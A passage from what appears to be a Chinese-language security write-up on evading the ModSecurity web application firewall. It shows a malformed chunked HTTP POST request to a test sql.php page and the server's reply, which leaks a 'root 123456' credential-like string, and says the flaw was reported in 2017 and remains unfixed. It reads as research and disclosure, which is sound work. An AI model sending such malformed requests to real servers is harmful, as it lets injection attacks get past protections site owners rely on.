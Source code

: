 因为sql.php脚本中返回了带有“root”的关键字，所以直接就被ModSecurity拦截了。这时我们改为发送畸形的分块数据包。

```
请求:
POST /sql.php?id=1 HTTP/1.1
Host: 10.10.10.10
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 16

3
123
1
0
(两个换行)


返回:
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
root 123456
========GET==========
Array
(
   [id] => 1
)
========POST==========
Array
(
)
```

通过两个测试可以发现使用畸形的分块数据包可以直接绕过ModSecurity的检测。这个问题我们在2017年4月已提交给ModSecurity官方，但是因为种种问题目前依然未修复
